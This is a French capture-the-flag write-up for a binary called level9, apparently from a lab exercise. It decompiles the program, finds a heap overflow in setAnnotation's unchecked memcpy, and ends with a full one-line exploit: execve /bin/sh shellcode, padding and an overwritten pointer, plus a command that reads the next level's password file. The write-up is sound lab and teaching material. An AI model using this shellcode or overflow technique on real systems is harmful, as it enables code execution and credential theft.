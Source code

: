 # Rapport CTF - [Level09]

### Observation :
En arrivant sur le level9 on trouve un exécutable nommé level9.\
Quand nous essayons de le lancer nous n'avons pas de retour. \
Regardons donc avec gdb ou un decompilateur.

### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c++
//----- (080486F6) --------------------------------------------------------
void __cdecl N::N(N *this, int a2)
{
*(_DWORD *)this = off_8048848;
*((_DWORD *)this + 26) = a2;
}

//----- (0804870E) --------------------------------------------------------
void *__cdecl N::setAnnotation(N *this, char *s)
{
size_t v2; // eax

v2 = strlen(s);
return memcpy((char *)this + 4, s, v2);
}

//----- (080485F4) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  N *v3; // ebx
  N *v4; // ebx
  N *v6; // [esp+1Ch] [ebp-8h]

  if ( argc <= 1 )
    _exit(1);
  v3 = (N *)operator new(0x6Cu);
  N::N(v3, 5);
  v6 = v3;
  v4 = (N *)operator new(0x6Cu);
  N::N(v4, 6);
  N::setAnnotation(v6, (char *)argv[1]);
  return (**(int (__cdecl ***)(N *, N *))v4)(v4, v6);
}
```
Nous pouvons voir que c'est un code en cpp, qui new (malloc). \
Il n'y a pas de protection sur l'entrer de notre arv[1]. \
Nous pouvons donc injecter du code. 
#### Regardons l'asm:


```c
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   %ebp
   0x080485f5 <+1>:	mov    %esp,%ebp
   0x080485f7 <+3>:	push   %ebx
   0x080485f8 <+4>:	and    $0xfffffff0,%esp
   0x080485fb <+7>:	sub    $0x20,%esp
   0x080485fe <+10>:	cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	movl   $0x1,(%esp)
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	movl   $0x6c,(%esp)
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    %eax,%ebx
   0x0804861e <+42>:	movl   $0x5,0x4(%esp)
   0x08048626 <+50>:	mov    %ebx,(%esp)
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:	movl   $0x6c,(%esp)
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    %eax,%ebx
   0x08048640 <+76>:	movl   $0x6,0x4(%esp)
   0x08048648 <+84>:	mov    %ebx,(%esp)
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:	mov    %ebx,0x18(%esp)
   0x08048654 <+96>:	mov    0x1c(%esp),%eax
   0x08048658 <+100>:	mov    %eax,0x14(%esp)
   0x0804865c <+104>:	mov    0x18(%esp),%eax
   0x08048660 <+108>:	mov    %eax,0x10(%esp)
   0x08048664 <+112>:	mov    0xc(%ebp),%eax
   0x08048667 <+115>:	add    $0x4,%eax
   0x0804866a <+118>:	mov    (%eax),%eax
   0x0804866c <+120>:	mov    %eax,0x4(%esp)
   0x08048670 <+124>:	mov    0x14(%esp),%eax
   0x08048674 <+128>:	mov    %eax,(%esp)
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret   
```
On peut voir à partir de la ligne 136 que eax vas être mov dans edx qui vas exécuter sa valeur dereferencer.


### Solution :
Il nous faut donc overflow notre malloc (new) de `108` octets pour mettre une valeur de retour avec l'adresse de notre arv[1]. \
On injecte donc notre code: 
- Notre adresse de `arv[1] + 4` pour le dereferancement
- Notre `SHELLCODE` (en locurance 24 caracteres)
- Des octets random jusqu'a atteindre `108` pour pouvoir overflow, donc `108 - 4 - 24`
- Et enfin l'adresse de notre arv[1] pour qu'il puisse la déréférencer et arriver sur notre shellcode.

On fait la commande suivante pour obtenir le flag :
```sh
/home/user/level9/level9 $(python -c "print('\x08\x04\xa0\x10'[::-1]  + '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'A'*(108 - 4 - 24) + '\x08\x04\xa0\x0c'[::-1])") <<< "cat /home/user/bonus0/.pass"
```

### Resultat :
```sh
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
